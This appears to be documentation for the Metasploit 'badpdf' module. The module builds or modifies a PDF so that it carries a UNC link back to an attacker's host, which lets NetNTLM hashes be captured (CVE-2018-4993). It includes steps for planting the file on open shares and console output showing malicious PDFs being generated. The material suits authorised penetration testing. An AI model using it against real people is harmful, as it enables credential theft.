 This module will either create a blank pdf document which contains a UNC link which will connect back to LHOST if file FILENAME options is used 
or if PDFINJECT option is used will try and inject the necessary UNC code into an existing PDF document.

## Vulnerable Application

Various PDF Readers. Note Adobe released the patch APSB18-09 to prevent this and
FoxIT after version 9.1 is no longer vulnerable.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/fileformat/badpdf```
  4. Customise Options as required
  5. Do: ```run```
  6. A file pointing back to the listening host will then be generated.
  7. Configure auxiliary/server/capture/smb or similar to capture hashes.
  8. Upload the document to an open share or similar and wait for hashes.

## Options

**FILENAME**
This option allows you to customise the generated filename.
This can be changed using set FILENAME test.pdf

**LHOST**
This option allows you to set the IP address of the SMB Listener that the document points to
This can be changed using set LHOST 192.168.1.25

**PDFINJECT**
This option allows you to inject the UNC code into an existing PDF document
This can be changed using set PDFINJECT /path/to/file/pdf.pdf

## Scenarios

### Microsoft Windows

  
  ```
  Console output
  ```

  ```
  msf auxiliary(fileformat/badpdf) > show info

       Name: BADPDF Malicious PDF Creator
     Module: auxiliary/fileformat/badpdf
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  Richard Davy - secureyourit.co.uk
  CheckPoint researchers - Assaf Baharav, Yaron Fruchtmann, Ido Solomon

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  FILENAME                    no        Filename
  LHOST                       yes       Host listening for incoming SMB/WebDAV traffic
  PDFINJECT                   no        Path and filename to existing PDF to inject UNC link code into

Description:
  This module can either creates a blank PDF file which contains a UNC 
  link which can be used to capture NetNTLM credentials, or if the 
  PDFINJECT option is used it will inject the necessary code into an 
  existing PDF document if possible.

References:
  https://cvedetails.com/cve/CVE-2018-4993/
  https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/

msf auxiliary(fileformat/badpdf) > 

msf auxiliary(fileformat/badpdf) > set filename test.pdf
filename => test.pdf
msf auxiliary(fileformat/badpdf) > set lhost 192.168.1.28
lhost => 192.168.1.28
msf auxiliary(fileformat/badpdf) > exploit

[+] test.pdf stored at /root/.msf4/local/test.pdf
[\*] Auxiliary module execution completed
msf auxiliary(fileformat/badpdf) > set filename ""
filename => 
msf auxiliary(fileformat/badpdf) > set pdfinject /root/Desktop/example.pdf
pdfinject => /root/Desktop/example.pdf
msf auxiliary(fileformat/badpdf) > exploit

[+] Malicious file writen to /root/Desktop/example_malicious.pdf
[\*] Auxiliary module execution completed
msf auxiliary(fileformat/badpdf) > 
 
  ```